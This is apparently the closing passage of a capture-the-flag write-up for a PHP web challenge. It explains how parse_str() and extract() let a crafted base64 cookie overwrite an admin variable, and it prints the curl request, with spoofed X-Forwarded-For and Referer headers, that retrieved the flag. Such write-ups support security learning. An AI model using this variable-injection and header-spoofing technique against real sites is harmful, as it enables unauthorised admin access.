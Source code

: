 ```
                                echo $flag;
                            }
                        }
                    }
                }
            }
        }
    }
    else {
        header("HTTP/1.1 405 Method Not Allowed");
        echo "See what you don't.";
        exit;
    }

```

It's obvious that to get the flag, I need to modify the value of `$admin` into `1337l333333333333333333333333t`. There are two functions that I can use to achieve that. The first one is `parse_str()` function that parses a string into variables. For example, given this function call: `parse_str("foo=hacker&bar=1337", $output);`. The `$output` variable from the second parameter will be an associative array with `foo` and `bar` as the key and `hacker` and `1337` as the respective value of each. 
```
$output = array(
    "foo" => "hacker",
    "bar" => "1337"
);
```

The second function is `extract()` that imports variables into the current symbol table from an array. So, given the `$output` variable from above, `extract()` will create two variables `$foo` and `$bar` if they don't yet exist, or replace the value of those variables if they already exist.

To take advantage of both functions, I just need to alter my `identify` cookie into base64-encoded of `allow_access=true&admin=1337l333333333333333333333333t`. The `parse_str()` function will change the `$output` variable into:
```
$output = array(
    "allow_access" => "true",
    "admin" => "1337l333333333333333333333333t"
);
```

And the `extract()` function will replace the value of `$admin` variable into `1337l333333333333333333333333t`.

Simply put, here's the modified cookie:
```
identify=YWxsb3dfYWNjZXNzPXRydWUmYWRtaW49MTMzN2wzMzMzMzMzMzMzMzMzMzMzMzMzMzMzMzN0
```

And I sent the final request:
```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWUmYWRtaW49MTMzN2wzMzMzMzMzMzMzMzMzMzMzMzMzMzMzMzN0" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" --data "12345=true" --header "Accept: flag/*" -v
```

And there's the flag.


![bee463428aa994dbf3f8b4ff42d988fb.png](../../_resources/c0e10931d77d427a98f690908e6e8056.png)


## The Flag

Flag is **HilltopCTF{HTTP_1s_just_4_game_right.}**